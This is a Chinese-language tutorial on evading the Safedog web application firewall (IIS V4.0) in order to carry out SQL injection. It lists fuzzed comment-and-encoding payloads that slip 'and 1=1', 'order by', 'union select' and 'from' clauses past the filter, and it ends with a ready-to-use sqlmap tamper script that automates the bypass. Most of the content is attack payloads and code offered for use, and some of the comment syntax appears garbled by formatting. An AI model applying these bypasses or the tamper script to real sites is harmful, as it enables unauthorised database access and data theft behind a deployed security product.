


## 安全狗防护基本方法


本次使用的安全狗版本为：V4.0 27338 IIS 正式版，是官网截止2019年10月8号的最新版本，本篇文章主要介绍sql注入突破。


### sql注入防护


在安全狗的默认防护规则中有一系列关于sql注入的防护


当初发这些规则时就会被拦截，例如：


## bypass Sql注入防护


### 绕过总结（图片来自网上）


### 绕过 `and 1=1`

1. 直接使用`and -1=-1`绕过

	

2. 使用注释绕过，50000表示mysql的大版本号为5.0版本

或者：

	


	

3. 使用减法或加法绕过，注意加号需要进行url编码

	


	

4. 使用`&&`代替and，使用`true`代替`1=1`

	

5. 其它绕过说明只有and和`1=1`在一起时安全狗才会拦截,那就需要干扰安全狗将and和`1=1`使用一系列注释和特殊字符分开，例如：_**`/!and////!/!1=1/`**_

	| payload | 结果  |
	| ------- | --- |
	| and     | 未拦截 |
	| 1=1     | 未拦截 |
	| and 1=1 | 拦截  |


	


### 绕过`order by`


| payload  | 结果  |
| -------- | --- |
| order    | 未拦截 |
| by       | 未拦截 |
| order by | 拦截  |


说明只有order和by在一起时安全狗才会拦截。

1. 使用`.`绕过

	

2. 使用`%23%0a`绕过

	

3. fuzz出来的其它绕过方式,有很多，这里只举其中的5中方式
	- _**`/!order /!///by/1,2,3,4`**_
	- _**`/!order //%//by/1,2,3,4`**_
	- _**`/!order ////by/1,2,3,4`**_
	- _**`/!order /!/////by/1,2,3,4`**_
	- _**`/!order /!//////by/1,2,3,4`**_

### 绕过`union select`


| payload      | 结果  |
| ------------ | --- |
| union        | 未拦截 |
| select       | 未拦截 |
| union select | 拦截  |


说明只有union和select在一起时安全狗才会拦截。


> 安全狗对`union select`的过滤比较严，我只找到了一种绕过方法。

1. 使用`--+aaaaaa%0a`绕过

	


### 绕过`select from`


| payload     | 结果  |
| ----------- | --- |
| select      | 未拦截 |
| from        | 未拦截 |
| select from | 未拦截 |
| select 1    | 未拦截 |
| from 1      | 拦截  |
| from1       | 未拦截 |


说明from后面有空格时会拦截。

1. 使用`-+`即可绕过（仅适用于from后面跟数字的情况）：

	

2. 使用_`/!99999c//!99999c/FROM`_绕过

	


### 绕过`database()`


使用注释即可绕过：


## sqlmap tamper


最后赠送过狗tamper


```python
_#!/usr/bin/env python

from lib.core.enums import PRIORITY
from lib.core.settings import UNICODEENCODING_
**priority** = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, kwargs):
    if payload:
        payload=payload.replace(" ","/_!_/")
        payload=payload.replace("=","/_!_/=/_!_/")
        # payload=payload.replace('1=1','true')
        payload=payload.replace("AND","/_!AND/_//")
        payload=payload.replace("OR","/_!OR/_//")
        payload=payload.replace("UNION SELECT","UNION--+aaaaaa%0aSELECT")
        payload=payload.replace("#","/_!_/#")
        payload=payload.replace("USER()","USER/_!()_/")
        payload=payload.replace("DATABASE()","DATABASE/_!()_/")
        payload=payload.replace("--","/_!_/--")
        payload=payload.replace("FROM","/_!99999c_//_!99999c_/FROM")
        payload=payload.replace("CONCAT","/_!12345CONCAT_/")
        payload=payload.replace("CAST(","/_!12345CAST(_/")
        payload=payload.replace("CASE","/_!12345CASE_/")
    return payload

```


## 参考文章

- [Fuzzing---Sql injection bypass with BurpSuite](https://www.key1.top/index.php/archives/255/)
- [安全狗bypass注入](https://www.cnblogs.com/R4v3n/articles/9082419.html)
- [bypass安全狗绕过方法](https://www.yuag.org/2018/11/29/bypass%E5%AE%89%E5%85%A8%E7%8B%97%E7%BB%95%E8%BF%87%E6%96%B9%E6%B3%95/)
- [bypass安全狗](http://flag0.com/2018/04/20/bypass%E5%AE%89%E5%85%A8%E7%8B%97/)
- [Fuzzing With FuzzDB to Web Attack](https://payloads.online/archivers/2018-02-05/1)
- [Fuzz安全狗注入绕过](https://blog.csdn.net/nzjdsds/article/details/77367899)
